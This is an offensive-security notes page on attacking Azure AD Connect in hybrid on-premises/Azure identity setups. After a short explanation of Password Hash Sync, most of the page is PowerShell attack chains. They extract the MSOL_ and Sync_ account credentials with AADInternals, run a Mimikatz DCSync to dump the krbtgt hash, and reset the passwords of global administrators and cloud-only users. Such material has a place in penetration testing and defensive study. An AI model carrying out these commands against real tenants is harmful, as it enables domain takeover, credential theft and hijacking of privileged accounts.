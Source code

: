 # Azure AD Connect - Hybrid Identity

On-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods. Every method supports Single Sign-on (SSO):

* Password Hash Sync (PHS)
* Pass-Through Authentication (PTA)
* Federation

For each method, at least the user synchronization is done and an account with the name`MSOL_<installationidentifier>` is created on the on-prem AD.

### PHS

* This is the most common method
* Users and a hash of the password hashes are syncronized from the on-prem to AzureAD. However, clear-text passwords or the original hashes aren't sent
* PHS is required for features like Identity Protection and AAD Domain Services.
* Hashes are synchronized every two minutes.
* When an on-prem user wants to access an Azure resource, the authentication takes place on Azure AD.
* Built-in security groups (like domain admins...) are not synced to Azure AD.
* By default, password expiry and account expiry are not sync in Azure AD. So, a user whose on-prem password is expired (not changed) can continue to access Azure resources using the old password.

When PHS is configured some privileged accounts are automatically created:

* The account **`MSOL_<installationID>`** is automatically created in on-prem AD. This account has **replication (DCSync) permissions in the on-prem AD**.
* An account **`Sync_<name of on-prem ADConnect Server>_installationID`** is created in Azure AD. This account can **reset password of ANY user** (synced or cloud only) in Azure AD.

Passwords of the two previous privileged accounts are **stored in SQL server** on the server where **Azure AD Connect is installed.** Admins can extract them in clear-text.

If the server where Azure AD connect is installed is domain joined (recommended in the docs), it's possible to find it with:

```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### &#x20;From AzureAD to on-prem

```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

### From on-prem to AzureAD

Compromising the Sync\_\* account it's possible to reset the password of any user (icluding Global Administrators)

```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)

# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbose
```
